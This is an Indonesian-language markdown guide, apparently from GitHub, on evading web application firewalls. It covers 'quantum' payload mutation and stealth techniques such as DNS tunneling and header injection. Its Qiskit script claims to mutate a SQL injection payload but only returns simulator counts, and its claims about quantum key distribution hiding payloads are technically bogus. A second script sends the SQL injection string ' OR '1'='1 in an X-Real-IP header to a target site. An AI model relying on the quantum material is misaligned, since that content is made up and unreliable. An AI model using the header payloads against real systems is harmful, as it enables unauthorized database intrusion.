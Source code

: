 ## ⚛️ Future of WAF Evasion: Quantum & Stealth Attacks

**Seiring berkembangnya teknologi, metode bypass WAF juga semakin canggih.**  
Di bagian ini, kita akan membahas penggunaan **Quantum Computing, Stealth Attacks, dan Adaptive Attack Chains**  
untuk menghindari deteksi WAF di masa depan.

---

## 🔹 1. Quantum Computing for WAF Evasion

Quantum Computing memungkinkan eksploitasi berbasis **superposisi dan probabilitas** untuk menghindari deteksi.  
Dengan **Quantum Key Distribution (QKD)**, kita bisa **mengenkripsi payload** secara unik dalam setiap request.  

**Contoh Algoritma Quantum Payload Mutation:**  
```python
from qiskit import QuantumCircuit, Aer, transpile, assemble, execute

def quantum_mutate(payload):
    qc = QuantumCircuit(len(payload))
    for i, char in enumerate(payload):
        qc.h(i)  # Superposisi untuk mengacak payload
    
    backend = Aer.get_backend('qasm_simulator')
    transpiled = transpile(qc, backend)
    qobj = assemble(transpiled)
    result = execute(qc, backend).result()
    mutated_payload = result.get_counts()
    
    return mutated_payload

sql_payload = "' OR '1'='1"
bypass_payload = quantum_mutate(sql_payload)

print(f"Original Payload: {sql_payload}")
print(f"Quantum Mutated Payload: {bypass_payload}")
```

---

## 🕵️‍♂️ 2. Stealth Attacks & Covert Channels

Serangan **Stealth Attack** adalah teknik mengirimkan payload secara tersembunyi dalam **request normal**, misalnya:  

- **DNS Tunneling**: Payload dikirim melalui permintaan DNS.  
- **HTTP Header Injection**: Payload disisipkan dalam **header tidak umum**.  
- **Time-Based Evasion**: Payload dikirim bertahap dalam **beberapa detik** agar tidak terdeteksi.  

**Contoh HTTP Header Injection untuk Bypass WAF:**  
```python
import requests

payload = {"X-Real-IP": "' OR '1'='1"}
response = requests.get("https://target.com", headers=payload)

print(response.text)
```

---